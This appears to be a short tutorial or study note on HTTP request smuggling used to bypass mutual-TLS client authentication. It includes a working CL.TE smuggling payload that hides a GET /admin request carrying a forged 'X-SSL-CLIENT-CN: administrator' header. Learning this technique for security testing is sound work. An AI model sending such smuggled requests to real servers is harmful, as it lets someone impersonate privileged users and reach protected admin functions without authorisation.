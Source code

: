 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bypassing client authentication

TLS handshake requires server to authenticate themselves to clients, usually client verifiying the Common Name(CN) which should match the domain hostname.

Some sites go one step furthur in using M(mutual)TLS where server verifies identify of the client via a certificate presented to the server containing its CN, usually like a username. The front end server usually append a non standard http header for this.

`GET /admin`\
`HTTP/1.1` \
`Host: normal-website.com` \
<mark style="color:blue;">`X-SSL-CLIENT-CN: carlos`</mark>

This behaviour is not that exploitable in practice as front end server usually overwrite them if they exist already. However, smuggled requests are hidden from the front end and backend server can process them with headers unchanged.

`POST /example HTTP/1.1` \
`Host: vulnerable-website.com` \
`Content-Type: x-www-form-urlencoded` \
`Content-Length: 64` \
`Transfer-Encoding: chunked`

`0`

`GET /admin HTTP/1.1` \
`X-SSL-CLIENT-CN: administrator` \
`Foo: x`
